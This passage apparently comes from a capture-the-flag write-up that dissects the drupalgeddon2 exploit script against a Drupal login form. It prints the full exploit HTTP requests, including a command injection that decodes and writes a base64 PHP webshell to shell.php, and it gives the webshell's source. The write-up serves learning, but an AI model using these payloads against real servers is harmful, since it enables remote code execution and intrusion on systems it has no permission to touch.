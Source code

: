![image-20210326163257806](https://0xdfimages.gitlab.io/img/image-20210326163257806.png)

The first thing it does is pull the `CHANGELOG.txt`, just like I did above.
Then it tries a couple paths to this `/user/password` form, and gets 500 and
404. It goes back to the one that gave 500, and adds additional parameters:

    
    
    POST /?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo%20VQMJGJAU HTTP/1.1
    User-Agent: drupalgeddon2
    Connection: close
    Host: 127.0.0.1:8888
    Content-Length: 47
    Content-Type: application/x-www-form-urlencoded
    
    form_id=user_pass&_triggering_element_name=name
    

The `name[%23markup]` field is set to a command. I’m not going to dive too
much deeper into the details of why this executes - [This
post](https://research.checkpoint.com/2018/uncovering-drupalgeddon-2/) from
Checkpoint does a really nice job going into the details. But to see what the
script does, it first sends the request above with the final bit being `echo
VQMJGJAU`. This is just to verify that the exploit works. Then it tries to
talk to the backdoor (presumably to see if it’s already uploaded). When that
fails (404), it sends the next request:

    
    
    POST /?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo%20PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9%20|%20base64%20-d%20|%20tee%20shell.php HTTP/1.1
    User-Agent: drupalgeddon2
    Connection: close
    Host: 127.0.0.1:8888
    Content-Length: 47
    Content-Type: application/x-www-form-urlencoded
    
    form_id=user_pass&_triggering_element_name=name
    

This time the command is:

    
    
    echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
    

The base64 string is pipped into `base64` to decode it and then `tee` will
output it to the paste _and_ write it to `shell.php`.

The command decodes to a PHP webshell:

    
    
    <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
    

Now there’s a request to `shell.php` which is successful (running the
`hostname` command to set up the prompt), and now it’s left to the user to
issue additional commands.

[](/2021/07/24/htb-armageddon.html)

